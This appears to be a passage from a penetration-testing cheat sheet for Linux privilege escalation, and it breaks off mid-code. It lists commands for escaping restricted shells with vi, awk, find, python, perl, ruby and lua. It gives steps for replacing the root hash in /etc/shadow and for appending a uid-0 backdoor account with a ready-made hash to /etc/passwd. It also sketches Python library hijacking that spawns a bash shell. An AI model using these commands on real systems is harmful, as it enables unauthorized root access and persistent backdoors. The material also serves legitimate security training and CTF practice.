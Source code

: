 
-----

#### Escape Restricted Shell

- Enumerate
  - `echo $PATH`
  - `echo {PATH}/*`
- Editors
  - `:set shell=/bin/bash`
  - `:shell`
  - `:! /bin/bash`
- Awk Command
  - `awk 'BEGIN {system("/bin/sh")}'`
- Tee Command
  - `echo "/bin/sh" | tee script.sh`
- Find Command
  - `find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
 - Payloads
```
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
irb(main:001:0> exec "/bin/sh"
```
* https://netsec.ws/?p=337
* https://www.sans.org/blog/escaping-restricted-linux-shells/

-----

#### High Sensitive File

- shadow
    - Read
        - John
    - Write
        - `mkpasswd -m sha-512 meow`
        - Replace root hash to `$6$8a4pXdTR/pPUpSqB$YjVIreFP12STBqkOQYS76UUpWtWIvgH3kTJZfrWVSkOqR3B0jTrL3h8cGlgOt6OtfcsOzdbHcjQe4QDcnNiGW.`
- passwd
    - Read
        - John
    - Write
        - Add new line `root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash`
        - `root:meow`
- apache2.conf
    - Write
        - 

-----

#### Program Hijack
- Python
    - import library priority
        1. local file
        2. `python -c "import sys;print(sys.path)"`
    - Check file permission if it can be write 
    - Fake library file
    ```python=
    import pty
    pty.spawn("/bin/bash")
    ```
    ```python=
    import os